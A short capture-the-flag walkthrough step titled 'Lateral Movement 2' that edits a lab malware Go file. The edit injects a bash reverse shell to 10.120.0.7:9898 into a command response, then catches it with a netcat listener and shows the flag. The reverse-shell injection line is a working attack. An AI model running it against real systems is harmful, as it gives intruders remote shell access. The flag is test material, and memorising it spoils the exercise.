

# Lateral Movement 2

1. Resume From [🗂 Discovery 1](../04-Discovery-1/)
2. Rev Eng `ExecuteCommands` Function in [🗂 main](../04-Discovery-1/06-main)

3. Change Malware Response in [🗂 malware.go](./03-main.go)
```
Lines: 92 to 94
	// cmd := exec.Command("bash", "-c", inputMap["command"])
	// out, _ := cmd.CombinedOutput()
	out := ";/bin/bash -i >& /dev/tcp/10.120.0.7/9898 0>&1;"
```
4. (Local PC) Start: `nc -l 0.0.0.0 9898`
5. (Local PC) Run `go run 03-main.go`
6. (Local PC: `nc`) Get Flag: MAZAPA_5b84f8d3bff36108c88c36e65dce2d77
